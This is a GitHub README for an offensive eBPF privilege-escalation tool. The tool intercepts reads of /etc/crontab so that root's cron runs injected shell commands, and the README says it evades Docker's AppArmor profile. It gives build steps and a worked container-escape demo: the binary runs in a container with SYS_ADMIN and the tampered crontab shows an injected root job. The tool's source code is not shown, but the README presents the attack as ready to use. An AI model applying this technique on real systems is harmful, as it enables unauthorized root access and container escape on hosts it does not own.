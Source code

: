 # obie-trice-conjob

> _"And Moby, you can get stomped by Obie"_ -Eminem

libbpf/bpf_load-based raw tracepoint eBPF privesc payload that intercepts reads
for `/etc/crontab` to inject arbitrary shell commands into the data read back
by user space. Because it uses the raw tracepoint API, it does not rely on
sysfs (`/sys/**`) and is therefore not blocked by Docker's AppArmor profile.

***Note:*** The build toolchain is a slightly modified version of the one from
[xdp-project/xdp-tutorial](https://github.com/xdp-project/xdp-tutorial).
Additionally, `common/bpf_load.{c,h}` are sourced from
[`linux/samples/bpf`](https://github.com/torvalds/linux/tree/master/samples/bpf).

## Dependencies

```bash
# on Ubuntu 18.04
$ sudo apt-get install build-essential clang llvm git libelf-dev xxd
```

## Usage

```bash
$ git submodule update --init # pulls in libbpf/
$ make
$ file conjob
conjob: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=fbefdcf7c3c9263cf6fa7d132304e2593787baa8, stripped
$ sudo docker run -it --cap-add SYS_ADMIN -v $(pwd):/tmp:ro alpine:latest sh  
/ # /tmp/conjob '( echo "# id" ; id ) > /tmp/conjob'
loaded...

```

```bash
$ cat /etc/crontab
SHELL=/bin/sh
* * * * * root ( echo "# id" ; id ) > /tmp/conjob
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
#########################
```
